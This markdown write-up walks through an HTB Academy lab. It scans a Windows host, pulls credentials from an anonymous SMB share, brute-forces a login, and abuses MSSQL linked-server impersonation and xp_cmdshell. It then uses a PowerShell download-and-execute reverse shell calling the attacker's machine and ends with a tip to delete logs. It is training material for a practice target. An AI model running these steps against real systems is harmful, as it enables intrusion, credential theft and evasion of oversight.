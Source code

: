 ```yaml
---
title: "HTB Academy | Attacking Common Services"
description: "This is a hard lab writeup from the htb module attacking common services"
pubDate: "Nov 18 2024"
heroImage: "https://academy.hackthebox.com/storage/modules/116/logo.png?t=1730242916"
badge: "Hard Lab"
tags: ["Exploitation","Sql","MSSQL","Bruteforcing","Windows","Smb","Privesc","Reverse Shell"]
---
```



- 1. Nmap Scanning TCP OPEN Ports:

```sh
sudo nmap -sS --open --min-rate 5000 -p- -Pn -n -vvv 10.129.134.163 -oG allPorts
```

```sh
PORT     STATE SERVICE       REASON
135/tcp  open  msrpc         syn-ack ttl 127
445/tcp  open  microsoft-ds  syn-ack ttl 127
1433/tcp open  ms-sql-s      syn-ack ttl 127
3389/tcp open  ms-wbt-server syn-ack ttl 127
```

- 1.2 Nmap basic scripts an service scanning:

```sh
nmap -sCV -p 135,445,1433,3389 10.129.134.163 -oN target
```

```python
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info: 
|   10.129.134.163:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.129.134.163:1433: 
|     Target_Name: WIN-HARD
|     NetBIOS_Domain_Name: WIN-HARD
|     NetBIOS_Computer_Name: WIN-HARD
|     DNS_Domain_Name: WIN-HARD
|     DNS_Computer_Name: WIN-HARD
|_    Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-11-17T06:52:40
|_Not valid after:  2054-11-17T06:52:40
|_ssl-date: 2024-11-17T06:57:07+00:00; -1s from scanner time.
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=WIN-HARD
| Not valid before: 2024-11-16T06:52:28
|_Not valid after:  2025-05-18T06:52:28
| rdp-ntlm-info: 
|   Target_Name: WIN-HARD
|   NetBIOS_Domain_Name: WIN-HARD
|   NetBIOS_Computer_Name: WIN-HARD
|   DNS_Domain_Name: WIN-HARD
|   DNS_Computer_Name: WIN-HARD
|   Product_Version: 10.0.17763
|_  System_Time: 2024-11-17T06:56:26+00:00
|_ssl-date: 2024-11-17T06:57:06+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-11-17T06:56:30
|_  start_date: N/A
```

------------------------------------------


- 2. Listing available smb folders:

```ruby
❯ smbclient -N -L //10.129.134.163/

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	Home            Disk      
	IPC$            IPC       Remote IPC
```


- 2.2 Download home directory:

```ruby
❯ smbclient  //10.129.134.163/home -U "" -Tc target.tar.gz
Password for [WORKGROUP\]:  # ==> Press enter
tar: dumped 5 files and 0 directories
Total bytes written: 576 (0,0 MiB/s)
```

- 2.3 Decompress the file and Search:

```python
❯ 7z x target.tar.gz

❯ tree
   -  .
   - ├──  HR
   - ├──  IT
   - │   ├──  Fiona
 118 │   │   └──  creds.txt
   - │   ├──  John
 101 │   │   ├──  information.txt
 164 │   │   ├──  notes.txt
  99 │   │   └──  secrets.txt
   - │   └──  Simon
  94 │       └──  random.txt
   - ├──  OPS
   - ├──  Projects
```


- 2.4 Create a dictionary with the credentials in the files:

```bash
❯ cat passwords
───────┬────────────────────────────────────
       │ File: passwords
───────┼────────────────────────────────────
   1   │ kAkd03SA@#!
   2   │ 48Ns72!bns74@S84NNNSl
   3   │ SecurePassword!
   4   │ Password123!
   5   │ SecureLocationforPasswordsd123!!
   6   │ 1234567
   7   │ (DK02ka-dsaldS
   8   │ Inlanefreight2022
   9   │ Inlanefreight2022!
  10   │ TestingDB123
  11   │ (k20ASD10934kadA
  12   │ KDIlalsa9020$
  13   │ JT9ads02lasSA@
  14   │ Kaksd032klasdA#
  15   │ LKads9kasd0-@
───────┴────────────────────────────────────
```

- 2.5. Brute force with crackmapexec:

```ruby
❯ crackmapexec smb 10.129.134.163 -u fiona -p passwords
SMB         10.129.134.163  445    WIN-HARD         [*] Windows 10 / Server 2019 Build 17763 x64 (name:WIN-HARD) (domain:WIN-HARD) (signing:False) (SMBv1:False)
SMB         10.129.134.163  445    WIN-HARD         [-] WIN-HARD\fiona:kAkd03SA@#! STATUS_LOGON_FAILURE 
SMB         10.129.134.163  445    WIN-HARD         [+] WIN-HARD\fiona:48Ns72!bns74@S84NNNSl # ==> pass
```

------------------

- 3.1 Connection to mssql with windows authentication:

```sh
impacket-mssqlclient -p 1433 fiona@10.129.134.163 -windows-auth   
```


- 3.2 Checking remote and vinculate servers:

```sql
SQL (WIN-HARD\Fiona  guest@master)> select srvname, isremote from sysservers
srvname                 isremote   
---------------------   --------   
WINSRV02\SQLEXPRESS            1   

LOCAL.TEST.LINKED.SRV          0   
```

- 3.3 Checking if we have permissions to connect as user "fiona":

```sql
SQL (WIN-HARD\Fiona  guest@master)> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [LOCAL.TEST.LINKED.SRV]
ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'NT AUTHORITY\ANONYMOUS LOGON'.
```

- 3.4 Searching for other users in the system database:

```
SQL (WIN-HARD\Fiona  guest@master)>  SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
name    
-----   
john    

simon   

```

- 3.5 changing to user john and checking if we have permissions on LOCAL.TEST.LINKED.SRV:

```sql
SQL (WIN-HARD\Fiona  guest@master)> execute as login = 'john'
SQL (john  guest@master)> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [LOCAL.TEST.LINKED.SRV]
                
-   -   -   -   
1   1   1   1   

```

- 3.6 We have permissions as sysadmin, so let's make some configurations to execute commands in the machine:


```sql
SQL (john  guest@master)> execute('sp_configure "show advanced options",1') at [LOCAL.TEST.LINKED.SRV]
INFO(WIN-HARD\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (john  guest@master)> execute('reconfigure') at [LOCAL.TEST.LINKED.SRV]

SQL (john  guest@master)> execute('sp_configure "xp_cmdshell",1') at [LOCAL.TEST.LINKED.SRV]
INFO(WIN-HARD\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (john  guest@master)> execute('reconfigure') at [LOCAL.TEST.LINKED.SRV]
SQL (john  guest@master)> execute('xp_cmdshell "whoami"') at [LOCAL.TEST.LINKED.SRV]
output                
-------------------   
nt authority\system   
```


- 4 Using ConPtyShell from antoniococo [Github](https://github.com/antonioCoco/ConPtyShell):

```sh
wget https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 
```

- 4.1 In the script at last line, you can put this code and set the configuration of your machine and listeting port. Rows and columns is the size of your terminal, in my case is 48 and 162, you can use ("stty size") in your terminal to see yours.

```powershell
Invoke-ConPtyShell -RemoteIp <yourIp> -RemotePort 666 -Rows 48 -Cols 162
```


- 4.1 Preparing the Web server and listening with netcat:

```sh
python3 -m http.server 80
```

```sh
nc -nlvp 666
```

![Texto alternativo](/Pasted%20image%2020241118004402.png)

4.2 Getting and executing the script from our machine:

```sql
SQL (john  guest@master)> execute('xp_cmdshell "powershell IEX(New-Object Net.WebClient).DownloadString(''http://<yourIP>/PS.ps1'')" ') at [LOCAL.TEST.LINKED.SRV]
```


4.3 Searching the flag:

```powershell
PS C:\> cd C:\Users\Administrator\Desktop\
PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name                                                                                                             
----                -------------         ------ ----                                                                                                             
-a----        4/21/2022   4:07 PM             27 flag.txt                                                                                                         


PS C:\Users\Administrator\Desktop> type .\flag.txt 
HTB{46u$!n9_l!nk3d_$3rv3r$}
PS C:\Users\Administrator\Desktop>  
```

- 4.4 You can get the flag and remember to delete all the logs :D
